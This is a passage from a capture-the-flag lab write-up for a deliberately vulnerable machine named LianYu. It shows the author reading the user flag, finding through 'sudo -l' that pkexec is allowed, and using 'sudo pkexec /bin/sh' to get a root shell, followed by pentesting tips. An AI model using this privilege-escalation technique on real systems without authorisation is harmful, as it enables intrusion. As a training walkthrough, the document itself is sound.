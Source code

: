 ```
slade@LianYu:~$ 
slade@LianYu:~$ cat user.txt
******************************
			--Felicity Smoak
```



### Privilege Escalation

8. ##### root.txt

Now, the final task is to escalate our privileges and gain root access to obtain the root  flag. One of the basic steps that we can take for privesc is to see which commands can we run as root. This can be found out using the command `sudo -l`.

```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Here, we can see that we can run the `pkexec` command with root privileges. The next thing that we can do is go to [GTFOBins](https://gtfobins.github.io/) and look for any privesc method using this command.

```
slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
# pwd
/root
# cat root.txt
```

And there we go! We got the root flag as well and completed the room!



## Some Key Points to Take Away

1. Bruteforce directories recursively.
2. If you find any odd file extension, run a directory bruteforce scan for that file extension.
3. Keep a record of all the values that you find as they might be required in further stages of pentesting.
4. If you find an odd file, check it with `binwalk`, `file` and it's magic number.
